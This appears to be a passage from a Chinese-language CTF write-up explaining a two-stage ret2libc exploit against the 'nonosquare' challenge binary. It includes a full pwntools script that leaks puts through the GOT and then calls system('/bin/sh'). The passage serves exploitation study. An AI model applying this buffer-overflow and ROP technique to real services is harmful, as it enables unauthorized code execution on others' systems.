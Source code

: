```python
sh.sendline(payload)
sh.interactive()
```

### **2-3 No no no square**

No no no square程序和warmup一致，均为ret2libc。但是Nonosquare中并没有打印出puts函数的地址，所以需要我们利用栈溢出来得到。

由于程序执行时调用了puts函数，所以利用思路就是：第一次栈溢出调用puts函数泄漏出GOT表中puts函数的全局偏移并最后跳转到main函数的开头；第二次栈溢出利用计算好的system函数以及/bin/sh字符串的地址完成ret2libc。

具体的来讲，动态链接的程序是如何装载到内存空间并运行的之后会详细地出一篇博客来详细地介绍。具体的Exp如下所示。

```
from pwn import *
sh = remote("xx.xx.xx.xx",30003)


# try to entry the while loop
sh.recvuntil(b"This is going to be fun... is it?")


nonosquare = ELF('./nonosquare')
puts_plt = nonosquare.plt['puts'] # 0x405000
puts_got = nonosquare.got['puts']
main = nonosquare.symbols['main']


pop_rdi_addr = 0x401343 # pop rdi; ret;


payload = b'A'*56 + p64(pop_rdi_addr) + p64(puts_got) + p64(puts_plt) + p64(main)
print("[*]Sending the first payload and leak the puts addr %s" % payload)
sh.sendline(payload)


sh.recvuntil(b"no no no")
sh.recvuntil(b"Did you have fun?")
sh.recvuntil(b"\n")
libc_puts_addr_d = u64(sh.recv()[:6].ljust(8,b'\x00')) # 不足8字节补充
print(libc_puts_addr_d)
print("[*]Received the puts addr in libc: %d" % libc_puts_addr_d)


# sh.recvuntil(b"This is going to be fun... is it?")
# sh.recvuntil(b"no no no")
# sh.recvuntil(b"Did you have fun?")


libc = ELF('./libc-2.31.so')
libc_start_main_addr_s = libc.symbols['puts']
libc_base_addr = libc_puts_addr_d - libc_start_main_addr_s
system_addr = libc_base_addr + libc.symbols['system']
binsh_addr = libc_base_addr + next(libc.search(b"/bin/sh"))


ret_addr = 0x40101a # to solve the movaps issue


payload = b'A'*56 + p64(ret_addr) + p64(pop_rdi_addr) + p64(binsh_addr) + p64(system_addr)
print("[*]Sending the second payload: %s" % payload)
sh.sendline(payload)
sh.recvuntil(b"no no no")
sh.recvuntil(b"Did you have fun?")

```